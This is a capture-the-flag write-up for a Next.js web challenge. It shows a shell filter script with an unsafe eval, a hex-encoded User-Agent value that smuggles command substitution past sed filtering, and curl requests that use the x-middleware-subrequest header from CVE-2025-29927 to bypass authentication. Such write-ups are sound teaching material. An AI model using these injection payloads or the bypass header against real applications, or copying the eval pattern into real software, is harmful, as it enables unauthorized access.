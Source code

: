 # <div align="center"><span style="color:#f03c15">COMMAND INJECTION IN THE LOGS</span></div>

<div align="center">
  <h2 style="color:#4287f5">AISEC ENSA MARRAKECH CTF 2025</h2>
  <p><b>Challenge Creator</b>: hmidal3yan | <b>Difficulty</b>: <span style="color:#f59e0b">Medium</span> | <b>Category</b>: <span style="color:#10b981">Web Exploitation</span></p>
  <hr style="border: 1px solid #ddd; margin: 20px 0">
</div>

## <span style="color:#38bdf8">TARGET OVERVIEW</span>

This Next.js application records user interactions in log files. The critical vulnerability exists in how the system processes the `User-Agent` field in the `contact.log` file - specifically, an unsafe `eval` command that gives us our foothold.

### <span style="color:#a855f7">System Constraints:</span>
- <span style="color:#ef4444">⚠️</span> The filter script runs with limited user privileges (`filteruser`)
- <span style="color:#ef4444">⚠️</span> Available commands are restricted to those in `/restricted/bin`
- <span style="color:#ef4444">⚠️</span> Flag requires activation via the `flag` command before retrieval
- <span style="color:#ef4444">⚠️</span> Flag is only accessible for 2 minutes after activation
- <span style="color:#ef4444">⚠️</span> Special cookie required to access the flag endpoint

## <span style="color:#38bdf8">ATTACK SURFACE</span>

<div style="background-color:#1e293b; padding:15px; border-radius:5px;">
The application exposes several attack vectors:

```
┌─────────────────┐       ┌──────────────┐       ┌───────────────┐
│                 │       │              │       │               │
│  Contact Form   │──────▶│  Log Files   │──────▶│ Filter Script │
│  /api/contact   │       │ contact.log  │       │ (vulnerable)  │
│                 │       │              │       │               │
└─────────────────┘       └──────────────┘       └───────────────┘
                                                         │
                                                         │
                                                         ▼
┌─────────────────┐       ┌──────────────┐       ┌───────────────┐
│                 │       │              │       │               │
│  Flag Endpoint  │◀──────│ Flag Checker │◀──────│ Filtered Logs │
│ /api/i7tiramati │       │              │       │               │
│                 │       └──────────────┘       └───────────────┘
└─────────────────┘
```
</div>

### <span style="color:#a855f7">Key API Endpoints:</span>
- <span style="color:#f97316; font-weight:bold">POST /api/contact</span>: Logs User-Agent to `contact.log` (our injection point)
- <span style="color:#f97316; font-weight:bold">GET /api/logs</span>: Retrieves processed logs from `logs/filtered`
- <span style="color:#f97316; font-weight:bold">GET /api/i7tiramati</span>: Returns the flag (requires authentication + activation)

## <span style="color:#ef4444">CRITICAL VULNERABILITY</span>

<div style="background-color:#fef2f2; color:#7f1d1d; padding:15px; border-radius:5px; border-left:4px solid #ef4444">
The filter script processes log entries with a dangerous pattern:

```bash
# Vulnerable code in filter.sh
sanitized=$(echo "$user_agent" | sed 's/[;&|`$()]//g')
decoded=$(printf '%b' "$sanitized")
processed=$(eval "echo \"$decoded\"")
```

This unsafe `eval` is badly sanitized and allows use to use Hexa to bypass the sanitization and execute arbitrary commands when our payload is processed by the filter script.
</div>

## <span style="color:#10b981">EXPLOITATION WALKTHROUGH</span>

<div style="display:flex; margin-bottom:20px;">
  <div style="flex:1; padding:10px; background-color:#ecfdf5; border-radius:5px; margin-right:10px; border-left:4px solid #10b981">
    <h3 style="color:#10b981">PHASE 1: RECONNAISSANCE</h3>
    <ol>
      <li>Examine the application structure</li>
      <li>Identify the vulnerable log processing mechanism</li>
      <li>Understand the flag activation requirements</li>
    </ol>
  </div>
  
  <div style="flex:1; padding:10px; background-color:#eff6ff; border-radius:5px; margin:0 10px; border-left:4px solid #3b82f6">
    <h3 style="color:#3b82f6">PHASE 2: PAYLOAD CRAFTING</h3>
    <p>We need to:</p>
    <ul>
      <li>Inject a command that executes the `flag` command</li>
      <li>Obtain the special cookie by using `\x24\x28flag\x29` as our User-Agent</li>
      <li>Prepare for accessing the flag endpoint</li>
    </ul>
  </div>
  
  <div style="flex:1; padding:10px; background-color:#fef2f2; border-radius:5px; margin-left:10px; border-left:4px solid #ef4444">
    <h3 style="color:#ef4444">PHASE 3: EXPLOITATION</h3>
    <ol>
      <li>Submit a contact form with our crafted User-Agent payload</li>
      <li>Wait for the filter script to process our payload (runs every 3 minutes)</li> 
      <li>Confirm flag activation (writes "1" to `/tmp/.flag_activated`)</li>
      <li>Access `/api/i7tiramati` with the acquired cookie</li>
    </ol>
  </div>
</div>

## <span style="color:#f59e0b">EXPLOITATION TOOLS</span>

<div style="background-color:#1e293b; padding:15px; border-radius:5px;">

```bash
# Crafting payload with curl
curl -X POST http://target:3000/api/contact \
  -H "Content-Type: application/json" \
  -H "User-Agent: \x24\x28flag\x29" \
  -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware" \
  -d '{"name":"hacker","email":"exploit@test.com","message":222 /to cause ERROR/}'
THAT IS THE PAYLOAD STRUCTURE BUT IT IS BETTER TO USE POSTMAN OR BURPSUITE so you capture the cookie returned to the user.
# Retrieving flag
curl -X GET http://target:3000/api/i7tiramati \
      -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware" \
      -H "Cookie: special_cookie=value_from_response"
```
</div>

## <span style="color:#38bdf8">REAL-WORLD CONNECTIONS</span>

This challenge draws inspiration from CVE-2025-29927, a Next.js middleware bypass vulnerability where attackers could bypass authentication by adding a specific header:

<div style="background-color:#1e293b; padding:15px; border-radius:5px; color:#94a3b8; font-family:monospace;">
x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware
</div>

While our challenge focuses on command injection rather than middleware bypass, both exploits demonstrate how HTTP headers can be weaponized to compromise application security.
